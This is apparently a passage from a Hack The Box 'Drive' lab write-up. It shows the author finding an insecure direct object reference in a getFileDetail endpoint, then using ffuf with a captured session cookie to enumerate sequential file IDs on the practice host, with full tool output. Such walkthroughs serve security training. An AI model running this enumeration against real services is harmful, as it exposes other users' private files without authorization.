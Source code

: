 ![](_/htb-drive-20231019-1.png)

## Exploit

I'm able to create a user account and explore. There is an endpoint called `getFileDetail` that fetches files via a file ID, which appears to be a sequential integer. This allows me to discover valid file IDs, which return a permission error instead of `404`. I grab the session cookie via Burp and run `ffuf`:

```console
$ c='csrftoken=HbHmux4Xan3o9FNfHjsTwIZ9Kzmp8ezn; sessionid=evaxi8pqab9j0ocxhvnqojwo68x25k5x'
$ ffuf -b "$c" -w ~/w -u http://drive.htb/FUZZ/getFileDetail/ -fs 82
[...]
________________________________________________

 :: Method           : GET
 :: URL              : http://drive.htb/FUZZ/getFileDetail/
 :: Wordlist         : FUZZ: /home/e/w
 :: Header           : Cookie: csrftoken=HbHmux4Xan3o9FNfHjsTwIZ9Kzmp8ezn; sessionid=evaxi8pqab9j0ocxhvnqojwo68x25k5x
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 82
________________________________________________

79                      [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 301ms]
99                      [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 299ms]
98                      [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 320ms]
101                     [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 302ms]
100                     [Status: 200, Size: 5078, Words: 1147, Lines: 172, Duration: 313ms]
114                     [Status: 200, Size: 6180, Words: 1846, Lines: 221, Duration: 282ms]
:: Progress: [200/200] :: Job [1/1] :: 126 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```
